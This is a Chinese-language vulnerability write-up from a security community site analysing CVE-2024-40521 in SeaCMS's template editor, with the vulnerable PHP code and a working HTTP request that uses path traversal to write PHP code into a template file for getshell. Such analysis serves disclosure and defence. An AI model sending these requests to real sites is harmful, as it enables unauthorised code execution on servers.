# CVE-2024-40521 绕过编辑模板限制分析-先知社区

> **来源**: https://xz.aliyun.com/news/16934  
> **文章ID**: 16934

---

# CVE-2024-40521 绕过编辑模板限制分析

## 漏洞描述

该漏洞是由于 admin\_template.php 虽然对被编辑的文件施加了一些限制，但攻击者仍然可以通过绕过这些限制并以某种方式编写代码，导致 getshell

## 漏洞复现

首先访问 admin\_template.php 文件



可以看到是一个模板的编辑界面



随便选择一个文件

比如第一个



尝试抓包看看可以修改不

```
POST /psadn/admin_template.php?action=save HTTP/1.1
Host: seacms:8181
Content-Length: 109
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/psadn/admin_template.php?action=edit&filedir=../templets/default/html/cascade.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=16mnarbh98d6drbgkdr11ub4m6
Connection: keep-alive

content=aaa&filedir=..%2Ftemplets%2Fdefault%2Fhtml%2Fchannel.html&Submit=%E4%BF%AE%E6%94%B9%E6%A8%A1%E6%9D%BF
```

抓包修改为别的模板



可以发现修改成功了

说明还是可以修改的，但是这样危害并不高，尝试修改 php 文件



可以发现是有限制的

这里可以绕过的

如何绕过还得去查看我们的带哦吗是怎么写的，我们去看看

## 绕过分析

首先我们看到我们的代码

定位到相关的代码

```
elseif($action=='save')
{
    if($filedir == '')
    {
        ShowMsg('未指定要编辑的文件或文件名不合法', '-1');
        exit();
    }
    if(substr(strtolower($filedir),0,11)!=$dirTemplate){
        ShowMsg("只允许编辑templets目录！","admin_template.php");
        exit;
    }
    $filetype=getfileextend($filedir);
    if ($filetype!="html" && $filetype!="htm" && $filetype!="js" && $filetype!="css" && $filetype!="txt")
    {
        ShowMsg("操作被禁止！","admin_template.php");
        exit;
    }
    $folder=substr($filedir,0,strrpos($filedir,'/'));
    if(!is_dir($folder)){
        ShowMsg("目录不存在！","admin_template.php");
        exit;
    }
    $content = stripslashes($content);
    $content = m_eregi_replace("##textarea","<textarea",$content);
    $content = m_eregi_replace("##/textarea","</textarea",$content);
    $content = m_eregi_replace("##form","<form",$content);
    $content = m_eregi_replace("##/form","</form",$content);
    createTextFile($content,$filedir);
    ShowMsg("操作成功！","admin_template.php?path=".$folder);
    exit;
}
```

可以看见是有限制的，只能修改固定目录的文件，但是限制方法可以发现只需要我们目录中包含这个字符就 ok 了，那我们其实可以尝试目录穿越的去绕过

但是只能修改 html 的文件，尝试插入 php 代码看看是否解析

## 绕过调试

我们首先使用这样的 exp

```
POST /psadn/admin_template.php?action=save HTTP/1.1
Host: seacms:8181
Content-Length: 144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/psadn/admin_template.php?action=edit&filedir=../templets/default/html/cascade.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=16mnarbh98d6drbgkdr11ub4m6
Connection: keep-alive

content=<?php%20phpinfo();?>&filedir=../templets/../psadn/templets/admin_config.htm&Submit=%E4%BF%AE%E6%94%B9%E6%A8%A1%E6%9D%BF
```



然后我们查看文件



可以发现是成功解析了的

我们调试一下



可以看到这样成功绕过限制

然后检测后缀



也是 ok 的，这个没有办法绕过



然后就是检测目录是否存在

来到关键的方法



可以看到内容完全可以控制

```
function createTextFile($content,$fileDir)
{
    createfolder($fileDir,"filedir");
    $fp = @fopen($fileDir,"w");
    @fwrite($fp,$content);
    @fclose($fp);
    return true;
}
```

然后写入了文件，导致了恶意利用
